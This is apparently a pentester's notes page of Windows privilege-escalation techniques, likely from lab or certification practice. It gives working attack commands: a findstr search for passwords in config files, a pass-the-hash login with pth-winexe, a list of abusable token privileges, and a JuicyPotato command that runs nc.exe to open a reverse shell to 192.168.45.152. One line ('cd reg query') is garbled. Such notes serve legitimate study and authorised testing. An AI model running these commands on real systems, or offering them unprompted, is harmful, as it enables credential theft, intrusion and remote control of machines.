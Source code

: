 Check for "pass" string in CWD that appears in these file extensions
```
findstr /SIM /C:"pass" *.ini *.cfg *.config *.xml
```

## Pass the Hash

### pth-toolkit
[pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit/tree/master)

```
pth-winexe -U jenkins/administrator //10.10.10.63 cmd.exe
```

## Abusing Token Privileges 
[Abusing Token Privileges](https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/) 

**How to enumerate 
```
whoami /priv 
```
Abusable privileges
```
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege
- SeManageVolumePrivilege
```

### SeImpersonatePrivilege

[Rotten Potato](https://github.com/foxglovesec/RottenPotato) 

[JuicyPotato](https://github.com/ohpe/juicy-potato/tree/master)- worked on Microsoft Windows Server 2008 Standard (x86)

Juicy Rev Shell - See [[Authby]]
```
.\Juicy.Potato.x86.exe -l 1360 -p c:\windows\system32\cmd.exe -a "/c c:\users\Public\nc.exe -e cmd.exe 192.168.45.152 242"
```

[CLSID Lists](https://github.com/ohpe/juicy-potato/blob/master/CLSID/Windows_Server_2008_R2_Enterprise/CLSID.list)

#### Check .NET Environment
[God Potato](https://github.com/BeichenDream/GodPotato/releases?source=post_page-----d42c9c1e7f9e---------------------------------------) 
```
cd reg query "HKLM\Software\Microsoft\Net Framework Setup\NDP" /s
```
